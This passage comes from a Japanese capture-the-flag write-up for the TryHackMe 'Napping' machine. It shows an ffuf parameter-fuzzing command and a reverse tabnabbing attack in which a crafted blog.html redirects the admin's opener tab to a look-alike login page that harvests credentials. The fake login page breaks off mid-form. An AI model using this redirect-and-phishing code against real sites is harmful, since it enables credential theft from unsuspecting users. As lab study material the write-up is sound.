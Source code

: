 - config.php に隠しパラメータが無いか探したが、見つからなかった。

```shell
$ ffuf -u http://napping.thm/config.php?FUZZ=a -c -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -H 'Cookie: PHPSESSID=djf3tgqkcukhmvfg967m1k9b24' -fs 1
```

- welcome.php 画面に、ブログのURLを送信するフォームがある。

```
All links will be reviewed by our admin who also built this site!
```

自分のマシンのIPを入力したらリクエストが来るが・・・  
admin の Cookie をこちらのマシンに送信させられるか考えたが、無理と思われる。  
また、reset-password.php を実行させられないか考えたが、POSTが必要なので無理と思われる。

## Reverse Tab Nabbing

https://book.hacktricks.wiki/en/pentesting-web/reverse-tab-nabbing.html

URL入力後、下記リンクが生成されていることが分かる。  
target="_blank" が指定されており、かつ rel="noopener" または rel="noreferrer" が指定されていないため、Reverse Tab Nabbing 攻撃が成立する可能性がある。

```html
<a href='http://10.2.22.182:8000/index.html' target='_blank' >Here</a>
```

1. 現在のタブを開いた元のタブのLocationを（2で作成するページに）変更するHTMLページを用意する
2. 攻撃対象サイトのログイン画面に似せたログインページを用意する
3. adminがだまされてログイン情報を入力したら、その情報が攻撃者に送信される

### アクセスさせるページ blog.html

```html
<!DOCTYPE html>
<html>
 <body>
  Welcome to my blog!
  <script>
  window.opener.location = "http://10.2.22.182:8000/index.php";
  </script>
 </body>
</html>
```

### ログインページ index.php

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Login</title>
    <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.5.2/css/bootstrap.min.css">
    <style>
        body{ font: 14px sans-serif; }
        .wrapper{ width: 360px; padding: 20px; }
    </style>
</head>
<body>
    <div class="wrapper">
        <h2>Login</h2>
        <p>Please fill in your credentials to login.</p>


        <form action="/index.php" method="post">
```